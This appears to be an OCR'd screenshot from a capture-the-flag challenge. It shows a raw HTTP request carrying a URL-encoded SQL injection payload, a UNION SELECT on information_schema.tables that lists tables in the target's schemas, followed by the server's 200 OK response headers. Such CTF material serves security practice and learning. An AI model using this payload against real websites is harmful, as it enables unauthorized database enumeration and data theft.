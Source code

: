 GET /query?search=amazonis_planitia%20UNION%20SELECT%20table_schema%2C%20table_name%20FROM%20information_schema.tables%20WHERE%20table_schema%20IN%20%28%27alien_code%27%2C%20%27aliens%27%29&{}&_=1584147989793 HTTP/1.1
Host: web.ctf.b01lers.com:1001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.ctf.b01lers.com:1001/

HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 4594
Server: Werkzeug/1.0.0 Python/3.7.3
Date: Sun, 15 Mar 2020 13:42:15 GMT
